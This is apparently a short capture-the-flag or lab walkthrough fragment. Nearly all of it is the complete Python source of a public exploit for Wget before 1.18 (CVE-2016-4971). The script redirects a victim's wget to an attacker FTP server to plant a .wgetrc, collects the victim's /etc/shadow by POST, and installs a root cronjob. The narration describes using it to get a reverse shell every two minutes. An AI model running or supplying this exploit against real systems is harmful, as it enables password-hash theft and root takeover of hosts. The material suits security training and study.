

Index
exploit
lets mirror the exploit to our working directory and take a closer look at what it does


lastly we want to copy the python exploit and run the file so that every 2 minutes when the victim's cronjob is executed, it sends a reverse shell back to our attack machine
---[ wget-exploit.py ]---
#!/usr/bin/env python
#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#
import SimpleHTTPServer
import SocketServer
import socket;
class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
def do_GET(self):
# This takes care of sending .wgetrc
print "We have a volunteer requesting " + self.path + " by GET :)\n"
if "Wget" not in self.headers.getheader('User-Agent'):
print "But it's not a Wget :( \n"
self.send_response(200)
self.end_headers()
self.wfile.write("Nothing to see here...")
return
print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
self.send_response(301)
new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
print "Sending redirect to %s \n"%(new_path)
self.send_header('Location', new_path)
self.end_headers()
def do_POST(self):
# In here we will receive extracted file and install a PoC cronjob
print "We have a volunteer requesting " + self.path + " by POST :)\n"
if "Wget" not in self.headers.getheader('User-Agent'):
print "But it's not a Wget :( \n"
self.send_response(200)
self.end_headers()
self.wfile.write("Nothing to see here...")
return
content_len = int(self.headers.getheader('content-length', 0))
post_body = self.rfile.read(content_len)
print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)
print "Sending back a cronjob script as a thank-you for the file..."
print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
self.send_response(200)
self.send_header('Content-type', 'text/plain')
self.end_headers()
self.wfile.write(ROOT_CRON)
print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"
return
HTTP_LISTEN_IP = '192.168.57.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '192.168.57.1'
FTP_PORT = 21
ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"
handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)
print "Ready? Is your FTP server running?"
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
print "FTP is down :( Exiting."
exit(1)
print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT
handler.serve_forever()